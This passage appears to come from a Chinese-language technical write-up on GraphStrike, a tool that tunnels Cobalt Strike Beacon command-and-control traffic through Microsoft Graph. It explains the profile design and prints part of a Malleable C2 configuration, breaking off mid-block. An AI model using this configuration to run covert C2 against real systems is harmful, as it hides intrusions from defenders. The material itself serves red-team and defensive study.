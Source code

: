 | **Statement** | **What** |
| --- | --- |
| header “header” | Store data in an HTTP header |
| parameter “key” | Store data in a URI parameter |
| print | Send data as a transaction body |
| uri-append | Append to URI |

与传统的 HTTP/HTTPS C2 的Cobalt Strike配置文件相比，GraphStrike 配置文件中的http-config、http-get 和 http-post 部分非常简单。例如，Beacon 在其请求中没有定义要使用的“header”值，因为我们必须在运行时使用当前的访问令牌手动组装标头。这种简化的配置文件使得在 GraphLdr 设置的被钩住的函数中后续操作 Beacon 数据变得容易。

实际上，GraphStrike 并不真正需要 http-config 块，因为它控制了 Cobalt Strike Web 服务器如何响应请求。在 GraphStrike 模型中， TS 实际上是在响应来自 GraphStrike 服务器而不是 Beacon 的请求，因此所有这些通信都是在本地完成的，不需要任何形式的隐蔽或秘密行动。

在查看 http-get 和 http-post 块时，我们无法在配置文件中指定实际的 URI，因为每个 Beacon 都需要一个唯一的 URI，而这将在运行时创建。关于 Beacon 元数据或会话 ID 的任何额外、不必要的操作都是我们以后在 GraphStrike 服务器端要处理的事情，所以我们可以保持简单。Beacon 元数据是一个二进制块，但我们可以对其进行 base64url 编码，以便将其附加到 http-get 请求的 URI 中。会话 ID 可以以未经转换的形式附加到 http-post 请求的 URI 中。

在 TS 任务和 Beacon 输出方面，当 TS 有针对 Beacon 的任务时，我们指定它应该只是“打印”任务，或将其发送到响应的正文中。我们还不会操作或混淆这些数据（它们只是加密的二进制块）。类似地，当 Beacon 具有来自已完成任务的输出时，我们将指示它“打印”该输出，并将其以未经转换的形式发送到 http-post 请求的正文中。综合起来，GraphStrike 配置文件的 http-get 和 http-post 部分如下所示：

```plain
http-config {
    # This section all relates to how the Cobalt Strike web server responds.
    # It's all irrelevant for GraphStrike, since the TS is just responding to the GraphStrike server's requests.
    set headers "Date, Server, Content-Length, Keep-Alive, Connection, Content-Type";
    header "Server" "Apache";
    header "Keep-Alive" "timeout=10, max=100";
    header "Connection" "Keep-Alive";
}

http-get {

    # We just need our URI to be something unique and recognizable in order for GraphStrike to parse out values
    set uri "/_";
    set verb "GET";

    client {

        metadata {
            base64url;
            uri-append;
        }
    }

    server {

        output {   
            print;
        }
    }
}

http-post {

    # We just need our URI to be something unique and recognizable in order for GraphStrike to parse out values
    set uri "/-_";
    set verb "POST";

```